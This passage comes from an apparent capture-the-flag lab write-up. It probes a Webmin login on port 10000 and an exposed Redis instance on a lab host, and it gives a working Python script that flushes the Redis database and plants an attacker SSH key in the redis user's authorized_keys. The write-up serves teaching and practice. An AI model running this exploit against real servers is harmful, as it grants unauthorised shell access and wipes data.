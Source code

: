 ![Image]({static}/images/screenshot-from-2019-12-01-13-59-10.png){: .image-process-article-image}

Moving on to port 10000, we are presented with a redirect to an SSL site.

![Image]({static}/images/screenshot-from-2019-12-01-13-59-58.png){: .image-process-article-image}

To make this work, we tweak our `/etc/hosts` file a bit and move to the site mentioned above. There we are presented with a Webmin login panel.

![Image]({static}/images/screenshot-from-2019-12-01-14-00-26.png){: .image-process-article-image}

A few tries with default username/password combinations did not yield any success, so let's move on. We don't want to bruteforce the credentials here out of politeness to the other people hacking on it. :) About Redis and port 6379, there is a general rule of thumb for production usage: **NEVER PUT THIS THING ON THE OPEN INTERNET.** If you don't believe me, read the same thing in the [Redis docs](https://redis.io/topics/security) - worded a bit more elegantly:

> Redis is designed to be accessed by trusted clients inside trusted environments. This means that usually it is not a good idea to expose the Redis instance directly to the internet or, in general, to an environment where untrusted clients can directly access the Redis TCP port or UNIX socket.

In my attack I made some assumptions, such as that the user the DB is running under is called `redis`, that its home directory is `/var/lib/redis/` and that the config options used in the attack are available. All of these should be true by default. So I generated a new SSH keypair and hacked up a little Python script:

```python
import redis


print("[+] Reading key")
with open("attacker.key", "r") as keyfile:
    key = "\n\n" + keyfile.read().strip() + "\n\n"

print("[+] Connecting to Redis")
r = redis.StrictRedis(
    host='10.10.10.160',
    port=6379,
)

print("[+] Flushing DB")
r.flushdb()

print("[+] Setting attacker SSH key")
r.set("itdonottouch", key)

print("[+] Setting configuration keys")
r.config_set("dir", "/var/lib/redis/.ssh/")
r.config_set("dbfilename", "authorized_keys")

print("[+] Saving changes to Redis disk")
r.save()

print("[+] Exploit finished - try ssh with redis@10.10.10.160")
```
